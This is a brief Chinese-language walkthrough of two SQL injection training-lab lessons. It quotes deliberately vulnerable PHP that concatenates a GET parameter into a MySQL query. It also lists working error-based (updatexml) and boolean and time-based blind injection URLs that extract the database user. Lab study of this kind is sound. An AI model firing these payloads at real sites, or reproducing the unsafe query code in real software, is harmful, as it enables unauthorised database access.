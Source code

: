 # lesson5-

* source :

  ```php
  if(isset($_GET['id']))
  {
  $id=$_GET['id'];
  }
  ```

* sink:  

```php
// connectivity 
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```

同lesson1, 这又是一个单引号闭合。

* output:

```php
	if($row)
	{
  	echo '<font size="5" color="#FFFF00">';	
  	echo 'You are in...........';
  	echo "<br>";
    echo "</font>";
  }
	else 
	{
		echo '<font size="3" color="#FFFF00">';
		print_r(mysql_error());
		echo "</br></font>";	
		echo '<font color= "#0000ff" font size= 3>';	
	}
```

第五关开始， 这个地方保留了显错注入， 但是没有了联合注入， 登陆成功不现实数据库查处的任何字段\(You are in ...），可以利用这句话的存在与否进行布尔型盲注。



* 报错注入： 通过 `print_r(mysql_error())`

  * xpath:  `index.php?id=1' and (updatexml(1,concat(0x7e,(select user()),0x7e),1))--+`

* 盲注：

  * 时间
  * boolean

       

            index.php?id=1' and if\(\(substr\(user\(\),1,1\)='r'\),1,0\)--+



## lesson6

* sink

```php
$id = '"'.$id.'"';
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```

同lesson4，这里又是一个双引号闭合。

* 报错注入： 通过 `print_r(mysql_error())`

  * xpath:  `index.php?id=1' and (updatexml(1,concat(0x7e,(select user()),0x7e),1))--+`

* 盲注：

  * 时间

          index.php?id=1" and if\(\(substr\(user\(\),1,1\)='r'\),sleep\(5\), 0\)--+

  * boolean

    index.php?id=1" and if\(\(substr\(user\(\),1,1\)='r'\),1, 0\)--+



